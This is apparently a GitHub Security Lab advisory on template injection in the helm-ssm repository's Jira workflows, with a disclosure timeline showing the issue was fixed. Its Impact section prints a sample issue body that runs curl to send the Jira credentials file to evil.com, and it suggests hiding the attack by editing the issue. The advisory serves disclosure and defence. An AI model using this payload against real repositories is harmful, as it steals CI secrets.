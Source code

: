 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">December 3, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-180: Template injection in the GitHub workflows of helm-ssm repository</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>Automatic GitHub workflows in <a href="https://github.com/codacy/helm-ssm">helm-ssm repository</a> are vulnerable to template injection from user comments.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/codacy/helm-ssm">helm-ssm GitHub repository</a></p>

<h2 id="tested-version">Tested Version</h2>

<p>Master branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-hidden-expression-expansion-of-input-parameters-passed-to-atlassiangajira-create-or-atlassiangajira-comment">Issue: Hidden expression expansion of input parameters passed to <code class="language-plaintext highlighter-rouge">atlassian/gajira-create</code> or <code class="language-plaintext highlighter-rouge">atlassian/gajira-comment</code></h3>

<p><a href="https://github.com/codacy/helm-ssm/blob/master/.github/workflows/comment_issue.yml"><code class="language-plaintext highlighter-rouge">Jira Add comment on issue</code> step in comment_issue.yml</a>, <a href="https://github.com/codacy/helm-ssm/blob/master/.github/workflows/create_issue.yml"><code class="language-plaintext highlighter-rouge">Jira Create issue</code> step in create_issue.yml</a> and <a href="https://github.com/codacy/helm-ssm/blob/master/.github/workflows/create_issue_on_label.yml"><code class="language-plaintext highlighter-rouge">Jira Create issue</code> step in create_issue_on_label.yml</a> workflows are vulnerable to template injection.</p>

<p><code class="language-plaintext highlighter-rouge">${{ github.event.issue.title }}</code>,<code class="language-plaintext highlighter-rouge">${{ github.event.issue.body }}</code> and <code class="language-plaintext highlighter-rouge">${{ github.event.comment.body }}</code> are used to format input values to <code class="language-plaintext highlighter-rouge">atlassian/gajira-create(comment)</code> actions. For example:</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="na">on</span><span class="pi">:</span>
  <span class="na">issues</span><span class="pi">:</span>
    <span class="na">types</span><span class="pi">:</span> <span class="pi">[</span> <span class="nv">opened</span> <span class="pi">]</span>
<span class="nn">...</span>
<span class="na">uses</span><span class="pi">:</span> <span class="s">atlassian/gajira-create@v2.0.0</span>
<span class="na">with</span><span class="pi">:</span>
    <span class="na">summary</span><span class="pi">:</span> <span class="s2">"</span><span class="s">[GH#${{</span><span class="nv"> </span><span class="s">github.event.issue.number</span><span class="nv"> </span><span class="s">}}]</span><span class="nv">  </span><span class="s">${{</span><span class="nv"> </span><span class="s">github.event.issue.title</span><span class="nv"> </span><span class="s">}}"</span>
    <span class="na">description</span><span class="pi">:</span> <span class="pi">|</span>
    <span class="s">${{ github.event.issue.body }}</span>
    <span class="s">----</span>
    <span class="s">{panel}</span>
    <span class="s">_[Github permalink |${{ github.event.issue.html_url }}]_</span>
    <span class="s">{panel}</span>
</code></pre></div></div>

<p>However the Atlassian actions have a hidden feature - they expand <code class="language-plaintext highlighter-rouge">{{}}</code> internally. This way when the issue title or body contains an expression in double curly braces it is evaluated by node.js in these actions.</p>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary code execution in the context of GitHub runner. For example a user may create an issue with the title <code class="language-plaintext highlighter-rouge">It doesn't work on my machine</code> and the body</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{{</span> <span class="nx">process</span><span class="p">.</span><span class="nx">mainModule</span><span class="p">.</span><span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">child_process</span><span class="dl">'</span><span class="p">).</span><span class="nx">exec</span><span class="p">(</span><span class="s2">`curl -d @</span><span class="p">${</span><span class="nx">process</span><span class="p">.</span><span class="nx">env</span><span class="p">.</span><span class="nx">HOME</span><span class="p">}</span><span class="s2">/.jira.d/credentials http://evil.com`</span><span class="p">)</span> <span class="p">}}</span>
</code></pre></div></div>

<p>which will exfiltrate the secret Jira API token to the attacker controlled server. To make the attack less visible an attacker may modify the body of the issue to <code class="language-plaintext highlighter-rouge">Never mind my bad.</code> and close it.</p>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/14/2020: Report sent to vendor</li>
  <li>10/26/2020: Acknowledged by vendor</li>
  <li>10/29/2020: Issue fixed</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-180</code> in any communication regarding this issue.</p>

   